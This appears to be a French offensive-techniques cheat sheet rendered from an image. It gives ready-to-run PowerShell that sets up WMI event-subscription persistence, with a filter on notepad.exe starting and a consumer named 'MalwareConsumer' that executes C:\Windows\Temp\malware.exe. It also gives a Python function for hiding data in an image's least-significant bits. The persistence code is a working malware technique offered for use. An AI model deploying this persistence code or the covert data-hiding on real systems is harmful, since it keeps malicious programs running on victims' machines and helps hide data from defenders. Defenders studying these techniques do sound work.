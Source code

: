 #### WMI Event Consumers

**Persistance via WMI**
```powershell
# Event Filter
$filterName = "ProcessStartFilter"
$query = "SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName = 'notepad.exe'"
$filterClass = ([wmiclass]"\\.\root\subscription:__EventFilter").CreateInstance()
$filterClass.QueryLanguage = "WQL"
$filterClass.Query = $query
$filterClass.Name = $filterName
$filterClass.Put()

# Event Consumer
$consumerName = "MalwareConsumer"
$consumerClass = ([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance()
$consumerClass.Name = $consumerName
$consumerClass.CommandLineTemplate = "C:\Windows\Temp\malware.exe"
$consumerClass.Put()

# Binding
$bindingClass = ([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance()
$bindingClass.Filter = $filterClass
$bindingClass.Consumer = $consumerClass
$bindingClass.Put()
```

### Techniques de steganographie

#### Steganographie dans les fichiers

**Images (LSB)**
```python
from PIL import Image

def hide_data_in_image(image_path, data, output_path):
    img = Image.open(image_path)
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    
    pixels = list(img.getdata())
    data_index = 0
    
    for i in range(len(pixels)):
        if data_index < len(binary_data):
            pixel = list(pixels[i])
            # Modifier le LSB du canal rouge
            pixel[0] = (pixel[0] & 0xFE) | int(binary_data[data_index])
            pixels[i] = tuple(pixel)
            data_index += 1
    
    img.putdata(pixels)
    img.save(output_path)
```
